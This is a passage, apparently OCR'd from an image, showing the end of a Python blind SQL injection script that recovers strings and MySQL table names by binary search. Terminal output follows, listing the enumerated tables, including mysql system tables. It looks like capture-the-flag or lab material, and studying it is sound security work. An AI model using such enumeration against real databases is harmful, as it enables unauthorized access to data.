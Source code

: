 ```python
            else:
                ng = md
        print(str(ok))
        fix_pass += str(chr(ok))
        print("")
        print("progress: " + str(i+1) +"/" + str(length))
        print("result: " + fix_pass)
        print("")
    return fix_pass

#length = exploit_length()
#length = 24
#exploit_2tansaku(int(length))

result = []
loop_times = 100

for i in range(loop_times):
    print("[*] " + str(i) + " times")
    print("")
    length = exploit_length(i)
    res = exploit_2tansaku(length,i)
    if(res == ""):
        print("[-] fix_pass is None. loop break")
        break
    result.append(res)

print("")
print("[-] exploit finished")
[print(a) for a in result]

```
```txt
$ python3 mysql-enum-tables-get-binarysearch.py

[-] exploit finished
albums
photos
```
```txt
[-] exploit finished
columns_priv
column_stats
db
event
func
general_log
gtid_slave_pos
help_category
help_keyword
help_relation
help_topic
host
index_stats
innodb_index_stats
innodb_table_stats
plugin
proc
procs_priv
proxies_priv
roles_mapping
servers
slow_log
tables_priv
```